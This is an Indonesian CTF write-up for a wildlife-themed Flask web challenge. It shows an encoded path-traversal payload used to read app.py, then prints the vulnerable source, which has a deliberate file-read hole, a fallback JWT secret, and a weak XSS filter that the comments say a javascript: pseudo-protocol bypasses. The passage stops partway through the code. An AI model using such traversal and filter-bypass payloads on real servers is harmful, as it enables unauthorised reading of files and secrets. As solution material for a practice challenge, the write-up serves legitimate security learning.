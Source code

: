 http://134.209.102.23:8082/about, ditemukan seperti ini

http://134.209.102.23:8082/?read_file=wildlife_info.txt

Ada parameter endpoint, jadi bisa directory transversal, setelah coba berkali kali, akhirnya kita menemukan formula untuk bypass nya. Karena setelah cek etc/passwd no ingfo, jadi coba guessing supaya dapet konfigurasi web.

Dan dapet cik lesgoo

http://134.209.102.23:8082/?read_file=/%2e%2e%2f/%2e%2e%2f/%2e%2e%2f/%2e%2e%2fapp.py


```python
from flask import Flask, request, render_template, make_response, send_file
import os
import jwt
from dotenv import load_dotenv

load_dotenv()

app = Flask(__name__)

app.config['SECRET_KEY'] = os.getenv('SECRET_KEY',
'default_fallback_ctf_key_NOT_SECURE_IN_PROD')

JWT_ALGORITHM = "HS256"

if not app.config['SECRET_KEY'] or app.config['SECRET_KEY'] == \
'default_fallback_ctf_key_NOT_SECURE_IN_PROD':
print("WARNING: SECRET_KEY not set in .env or environment variables. Using \
a default fallback key.")
print("This default key can be used if .env is not found, making the \
challenge easier if known.")

basedir = os.path.abspath(os.path.dirname(__file__))

FLAG_FILE = os.path.join(os.path.dirname(basedir), 'forbidden', 'flag.txt')

def is_safe(input_string):
"""
Checks if the input string contains potentially dangerous HTML or script
tags.
This function specifically targets '<script' and the combination of 'on'
and '='.
The CTF challenge solution leverages JavaScript pseudo-protocol with encoded
characters to bypass this particular filter.
"""
input_lower = input_string.lower()
if "<script" in input_lower:
return False
if "on" in input_lower and "=" in input_lower:
return False
return True

@app.route('/', methods=['GET', 'POST'])
def index():
"""
Handles the main page where users can submit wildlife observations.

It also contains the LFI vulnerability, triggered by a 'read_file' query
parameter.
If 'read_file' is present, it attempts to read and display the file.
Otherwise, it processes observation submissions.
"""
filename_to_read = request.args.get('read_file')
```